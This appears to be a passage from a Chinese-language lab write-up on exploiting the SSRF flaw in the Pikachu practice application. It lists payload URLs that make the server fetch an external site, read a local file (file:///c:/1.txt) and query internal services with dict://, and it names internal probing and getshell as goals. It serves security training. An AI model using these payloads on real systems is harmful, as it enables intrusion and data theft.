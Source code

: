 扩展阅读: [PHP中使用CURL实现GET和POST请求](https://www.cnblogs.com/CHEUNGKAMING/p/5717429.html)

**漏洞利用**

观察 url: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info1.php`

看起来就像远程包含漏洞一样,尝试构造 payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=http://www.baidu.com`

![image](../../../../assets/img/安全/实验/Misc/pikachu/72.png)

SSRF 利用方式有很多,比较常见的是服务端请求其他网站,一种是探测内网敏感信息,还有就是攻击 web 应用,主要是 strust2 远程命令执行,还有一些中间件的 getshell.

payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=file:///c:/1.txt`

payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=dict://127.0.0.1:80/info`

![image](../../../../assets/img/安全/实验/Misc/pikachu/73.png)
